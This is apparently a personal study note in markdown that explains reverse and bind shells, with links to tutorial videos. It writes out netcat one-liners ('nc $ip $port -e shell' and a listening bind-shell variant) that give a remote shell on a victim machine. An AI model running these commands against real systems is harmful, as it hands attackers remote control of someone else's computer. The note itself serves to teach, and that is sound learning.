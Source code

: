 ## Reverse shell & Bind shell
[Back to Cyber security page](Cyber%20security.md)
- --
## Reverse shell
In reverse shell , attacker listens on port and victim connects to it with execution shell. It is preffered as it can be tunneled to avoid firewall.
``` bash
attacker > nc -lvnp $port 
 
victim > nc $ip $port -e shell
```
- --
## Bind Shell
In Bind shell , attacker connects to victims open port on which it is listening. Although this is easiest form of shell connection , it is protected by firewall so its not the prefered one.

Example : 
``` bash
attacker > nc $ip $port

victim > nc -lvnp $port -e shell
```
- --
![difference|700](https://2.bp.blogspot.com/-ki2E1zoOUqE/Wu2h9kCjsSI/AAAAAAAAB9I/gykQPAMpT5M0NU9YtHAQllyvyJyIzHVIACLcBGAs/s1600/Bind%2Bshell%2Band%2Breverse%2Bshell.png)
- --
### Source 
- [Youtube video Hindi](https://youtu.be/BQfryZGl6nQ)
- [Youtube video hindi](https://youtu.be/PMd4mmRuua0)
- [HackerSploit video](https://youtu.be/1kHXf51Sqpk)